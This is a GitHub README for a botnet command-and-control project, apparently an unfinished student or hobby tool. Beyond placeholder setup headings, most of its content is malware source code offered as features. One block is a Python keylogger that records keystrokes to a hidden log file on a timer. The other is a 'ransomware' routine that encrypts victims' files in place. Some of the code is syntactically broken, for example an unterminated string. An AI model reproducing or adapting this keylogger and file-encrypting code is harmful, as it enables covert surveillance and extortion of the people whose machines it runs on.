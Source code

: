 # Botnet-Command-Control
Explain what our program here!!!

### show how to install VMs & put links to the VM images we used. 

### Show how to initiate Command & Control server & create a symbolic link
```bash
```

## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += ''
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t
		elif key == key.cmd: LOG += ' cmd+'
		else:
			LOG += str(key) # Append any other special key not handled above.

def log_to_file():
	if SYSTEM == 'Linux':
		f = open(LIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	else:
		f = open(WIN_DIR + 'log.txt', 'w')
		f.write(LOG) # Write keystrokes to file.
	cycle = Timer(SECONDS_TO_LOG, log_to_file)
	cycle.daemon = True
	cycle.start()

def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations.
```python
def crypto(action, *request):
	key_copy = ''

	def encrypt_it():
		to_encrypt = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf:
				key = Fernet.generate_key()
				key_copy = key
				cipher = Fernet(key)
				cipher_text = cipher.encrypt(data)
				ouf.write(cipher_text)
		return r'File encrypted... Key = ' + key_copy + '. Store this key for decryption.'
	
	def decrypt_it():
		to_encrypt, key = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf: 
				cipher = Fernet(key)
				plain_text = cipher.decrypt(data)
				ouf.write(plain_text)
		return r'File Decrypted...'
	if action == 'encrypt':
		return encrypt_it()
	else:
		return decrypt_it()
```
